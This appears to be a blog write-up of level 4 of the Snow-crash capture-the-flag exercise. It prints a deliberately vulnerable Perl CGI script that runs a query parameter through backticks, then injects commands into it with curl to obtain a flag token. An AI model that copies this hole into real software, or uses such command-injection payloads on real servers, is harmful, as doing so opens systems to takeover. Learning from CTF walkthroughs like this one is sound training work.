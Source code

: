```yaml
---
title:  "Snow-crash Level04"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories: cyber-security
---
```


#### 1. The password of `level04` is the token that got from `level03`.

```bash
qi0maab88jeaj46qoumi7maus
```
#### 2. So, try login to `level04` with the password we got from `level03` and try to put the command 'ls -la'. We can see the file 'level04'. 
```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
#### 3. Let's go inside in level04. 
```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ ./level04.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.4.23",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html
```

We can see A file with `.pl` extension. 

So, what is a PL file? 

A file with .pl extension is a `Perl Script` file that is a scripting language. 

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This is a simple `CGI(Common Gateway Interface) script` that takes a parameter "x" from the query string and prints the result of runnig the command specified by the parameter using the `echo` commmand.

<details>
<summary> Note: What is CGI?  </summary>
<br>
What is CGI? : CGI, or Common Gateway Interface, is a standard interface that enables communication between a web server and external programs or scripts. It allows for the creation of dynamic web pages, processing user input, and interaction with databases.
</details>

<br>
<details>
<summary> Note: What is query?  </summary>
<br>
In the context of the Perl CGI script provided, the "query" refers to the string of parameters and their values that are passed to the script through the URL when it is accessed.
<br><br>
This string typically follows a question mark (?) in the URL and consists of key-value pairs separated by ampersands (&).
<br><br>
For example, if you access the script via a URL like this:
<br><br>

http://example.com/cgi-bin/script.cgi?x=ls%20-l

<br><br>
In this URL, the query string is x=ls%20-l. Here, x is the parameter name, and ls%20-l is its value. The %20 is a URL-encoded representation of a space character.
<br><br>
So, in this example, the query is x=ls%20-l, where the parameter x is assigned the value ls -l. When the Perl CGI script is executed with this query, it retrieves the value of the x parameter (ls -l in this case) and executes it as a command.
</details>

<br>
<details>
<summary> Details for the perl script </summary>
<br>

1. `#!/usr/bin/perl`: This is a hashebang line specifying the path to the Perl interpreter to be used to execute this script.
<br><br>

2. `use CGI qw{param};`: This line imports the param function from the CGI module. The param function is used to retrieve the values of parameters from the query string.
<br><br>

3. `print "Content-type: text/html\n\n";`: This line sends an HTTP header indicating that the content is of type "text/html". The double newline (\n\n) separates the header from the body.
<br><br>

4. `sub x { ... }`: This defines a subroutine (function) named "x". It takes one parameter and assigns its value to the variable $y.
<br><br>

5. `$y = $_[0];`: This line assigns the value of the first (in this case, only) argument passed to the subroutine to the variable $y.
<br><br>

6. `print echo $y 2>&1;`: This line prints the result of the command specified in $y. Backticks (``) are used to execute the command, and `2>&1` redirects both standard output and standard error to the output. This is a common technique to capture both normal output and error messages.
<br><br>

7. `x(param("x"));`: This line calls the subroutine "x" using the value of the "x" parameter from the query string.
<br><br>

In summary, the script takes a parameter named "x" from the query string, uses it as a command, executes the command, and prints the result.
<br>
</details>
<br>

We can see another interesting thing in that perl script.
The script indicates that 

```bash
# localhost:4747
```

Maybe, there is something on the port 4747. 

#### 4. Let's check on the port 4747. 

`nc -zv` allows to check connection to 4747 without sending any data and verbose mode.

<details>
<summary> What is 'nc' command in Linux </summary>
<br>
1. nc : This is the command itself, which is short for "netcat." Netcat is a versatile networking utility for reading from and writing to network connections using TCP or UDP protocols.
<br>
2.  -z: This option tells nc to scan for open ports rather than initiating a data transfer. When used with the -v option, it prints verbose output, indicating whether the connection was successful or not.
<br>
3.  -v: This option stands for "verbose" and instructs nc to provide more detailed output, including the status of each connection attempt.
<br>
So, when you run nc -zv, you are instructing Netcat to attempt to connect to a specified host and port without sending any data (-z), while also providing verbose output (-v) to show the result of each connection attempt. This is commonly used for port scanning to check if a port on a remote system is open or closed.
<br>
</details>
<br>

```bash
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```

#### 5. Now, combine numbers 3 and 4 and  let’s send data using the `x parameter` and `port 4747` with `curl` command.


```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```

We got the `Flag04` with the whoami parameter.

Maybe we can try again with x parameter with getflag. And here we go, we got the flag :)
```bash
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


#### 6. We got a token for next level05

```
ne2searoevaevoem4ov4ar8ap
```
